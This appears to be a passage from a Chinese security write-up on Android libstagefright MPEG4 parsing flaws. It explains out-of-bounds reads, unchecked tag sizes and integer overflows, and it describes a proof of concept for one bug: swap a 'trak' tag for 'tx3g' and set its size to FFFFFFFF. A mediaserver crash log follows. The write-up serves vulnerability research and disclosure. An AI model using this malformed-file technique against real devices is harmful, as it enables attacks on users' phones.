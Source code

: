 前面1-8个漏洞有相似之处。

No1 : 一段数据被计算`strlen`，然后分配内存并`strcpy`，但这段数据并非一定以`’\0’`结束，所以导致读越界

No2-5：都是`tag`前的4字节size没有校验，可以任意取值，导致一系列的`size`计算问题。如下图所示，所有`tag4`字节前面都有4字节的`size`：

No6-8：都是`integer overflow`，但没有看到直接内存破坏的错误。可能会造成数据异常等。

![enter image description here](http://drops.javaweb.org/uploads/images/877547e733657fb8d2da2b2b72f9805c23c75462.jpg)

### 1.3. POC

1到5这5个漏洞的触发路径非常明了。都是在parseChunk遇到某种特殊tag时，分支处理逻辑出现问题。所以构造poc只需要修改对应的tag即可。

特别是2-4，都是tag前的4字节size出现问题。只需要调整对应的size。

以下的POC是针对no3，将其中一个`trak tag`修改为`tx3g`，然后将前面的size修改为4个FF

```
07-28 20:16:10.888: I/DEBUG(247): *** *** *** *** *** *** *** *** *** *** *** *** *** *** *** ***
07-28 20:16:10.888: I/DEBUG(247): Build fingerprint: 'Xiaomi/cancro/cancro:4.4.4/KTU84P/4.8.22:user/release-keys'
07-28 20:16:10.888: I/DEBUG(247): Revision: '0'
<span style="color: #ff0000;">07-28 20:16:10.888: I/DEBUG(247): pid: 10928, tid: 10945, name: Binder_4 &gt;&gt;&gt; /system/bin/mediaserver &lt;&lt;&lt;
07-28 20:16:10.888: I/DEBUG(247): signal 11 (SIGSEGV), code 1 (SEGV_MAPERR), fault addr 00000004</span>
07-28 20:16:10.978: I/DEBUG(247): r0 00000000 r1 63707274 r2 b187a6e8 r3 00000000
07-28 20:16:10.978: I/DEBUG(247): AM write failure (32 / Broken pipe)
07-28 20:16:10.978: I/DEBUG(247): r4 b187a6f8 r5 00000000 r6 b8100ed0 r7 b187aa28
07-28 20:16:10.978: I/DEBUG(247): r8 74783367 r9 b66dc904 sl 000000a9 fp 00000000
07-28 20:16:10.978: I/DEBUG(247): ip b66267b7 sp b187a690 lr b6df08df pc b664346e cpsr 60010030
07-28 20:16:10.978: I/DEBUG(247): d0 0000000000000000 d1 0000000000000000
07-28 20:16:10.978: I/DEBUG(247): d2 0000000000000000 d3 0000000000000000
07-28 20:16:10.978: I/DEBUG(247): d4 3fd1cb8765719d59 d5 bebbbb3f58eabe9c
07-28 20:16:10.978: I/DEBUG(247): d6 3e66376972bea4d0 d7 3ecccccd3ecccccd
07-28 20:16:10.978: I/DEBUG(247): d8 0000000000000000 d9 0000000000000000
07-28 20:16:10.978: I/DEBUG(247): d10 0000000000000000 d11 0000000000000000
07-28 20:16:10.978: I/DEBUG(247): d12 0000000000000000 d13 0000000000000000
07-28 20:16:10.978: I/DEBUG(247): d14 0000000000000000 d15 0000000000000000
07-28 20:16:10.978: I/DEBUG(247): d16 3930373039303032 d17 2e37343932373154
07-28 20:16:10.978: I/DEBUG(247): d18 006900640065006d d19 004d0049002e0061
07-28 20:16:10.978: I/DEBUG(247): d20 0061006900640065 d21 00790061006c0050
07-28 20:16:10.978: I/DEBUG(247): d22 006c004300720065 d23 0074006e00650069
07-28 20:16:10.978: I/DEBUG(247): d24 3f77ff86776369e9 d25 bf77ff86919d591e
07-28 20:16:10.978: I/DEBUG(247): d26 3fe0000000000000 d27 4000000000000000
07-28 20:16:10.978: I/DEBUG(247): d28 3ffe542fa9d0152a d29 bfbcb8765719d592
07-28 20:16:10.978: I/DEBUG(247): d30 3ff0000000000000 d31 3fd1cb8765719d59
07-28 20:16:10.978: I/DEBUG(247): scr 20000010
07-28 20:16:10.978: I/DEBUG(247): backtrace:
07-28 20:16:10.978: I/DEBUG(247): <span style="color: #ff0000;">#00 pc 0006846e /system/lib/libstagefright.so   
(android::MPEG4Extractor::parseChunk(long long*, int)+4345)</span>
07-28 20:16:10.978: I/DEBUG(247): #01 pc 000675fb /system/lib/libstagefright.so (android::MPEG4Extractor::parseChunk(long long*, int)+646)
07-28 20:16:10.978: I/DEBUG(247): #02 pc 00068a8b /system/lib/libstagefright.so (android::MPEG4Extractor::readMetaData()+46)
07-28 20:16:10.978: I/DEBUG(247): #03 pc 00068d31 /system/lib/libstagefright.so (android::MPEG4Extractor::countTracks()+4)
07-28 20:16:10.978: I/DEBUG(247): #04 pc 00092077 /system/lib/libstagefright.so 
(android::ExtendedUtils::MediaExtractor_CreateIfNeeded(android::sp&lt;android::MediaExtractor&gt;, android::sp&lt;android::DataSource&gt; const&amp;, char const*)+206)
07-28 20:16:10.978: I/DEBUG(247): #05 pc 00075a43 /system/lib/libstagefright.so 
(android::MediaExtractor::Create(android::sp&lt;android::DataSource&gt; const&amp;, char const*)+566)
07-28 20:16:10.978: I/DEBUG(247): #06 pc 0005a00b /system/lib/libstagefright.so 
```
